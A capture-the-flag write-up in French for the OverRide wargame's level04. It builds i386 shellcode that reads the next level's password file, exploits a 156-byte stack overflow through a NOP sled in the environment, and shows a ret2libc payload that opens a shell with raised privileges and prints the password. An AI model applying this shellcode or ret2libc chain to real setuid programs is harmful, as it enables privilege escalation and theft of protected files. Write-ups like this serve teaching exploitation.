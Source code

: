 # Level04

Nous remarquons la présence d'un fork, ainsi que des check, qui arrête le programme, si un execve est appelé.
Nous devons réaliser notre propre [shellcode](./resources/shellcode_file_reader.s) pour lire un fichier en architecture i386,
il fera un open, read et write sur le fichier `.pass` du level suivant.

Nous l'assemblons avec `nasm` et le linker `ld` pour pouvoir récupérer le shellcode en hexa.

```
nasm -f elf32 ./resources/shellcode_file_reader.s -o ./resources/shellcode.o
ld -m elf_i386 ./resources/shellcode.o -o ./resources/shellcode
chmod +x ./resources/shellcode
```

Ensuite nous récupérons son code en hexa grâce à `objdump`.

```
$ objdump -d resources/shellcode

resources/shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	31 c9                	xor    %ecx,%ecx
 8049002:	f7 e1                	mul    %ecx

08049004 <open>:
 8049004:	b0 05                	mov    $0x5,%al
 8049006:	51                   	push   %ecx
 8049007:	68 70 61 73 73       	push   $0x73736170
 804900c:	68 30 35 2f 2e       	push   $0x2e2f3530
 8049011:	68 65 76 65 6c       	push   $0x6c657665
 8049016:	68 72 73 2f 6c       	push   $0x6c2f7372
 804901b:	68 2f 75 73 65       	push   $0x6573752f
 8049020:	68 68 6f 6d 65       	push   $0x656d6f68
 8049025:	68 2f 2f 2f 2f       	push   $0x2f2f2f2f
 804902a:	89 e3                	mov    %esp,%ebx
 804902c:	cd 80                	int    $0x80

0804902e <read>:
 804902e:	93                   	xchg   %eax,%ebx
 804902f:	91                   	xchg   %eax,%ecx
 8049030:	b0 03                	mov    $0x3,%al
 8049032:	66 ba ff 0f          	mov    $0xfff,%dx
 8049036:	42                   	inc    %edx
 8049037:	cd 80                	int    $0x80

08049039 <write>:
 8049039:	92                   	xchg   %eax,%edx
 804903a:	b3 01                	mov    $0x1,%bl
 804903c:	c1 e8 0a             	shr    $0xa,%eax
 804903f:	cd 80                	int    $0x80

08049041 <exit>:
 8049041:	93                   	xchg   %eax,%ebx
 8049042:	cd 80                	int    $0x80

```

Ce qui nous donne :
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80
```

Nous devons maintenant trouver l'offset pour injecter le shellcode ainsi que son adresse.
On lance gdb normalement puis on le passe en mode debugging forks child:

```
set follow-fork-mode child
```

De la même manière qu'auparavant on trouve l'offset à 156 bytes.

on export tout d'abord le shellcode dans l'env comme ci-dessous:
```
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"'`
```

puis on trouve l'adressse du `NOP` le plus proche du shellcode:
```0xffffd8b0```

Place à l'injection:
```
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04
```

# Methode 2 (ret2libc)

Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` d´`exit` et de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```
Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
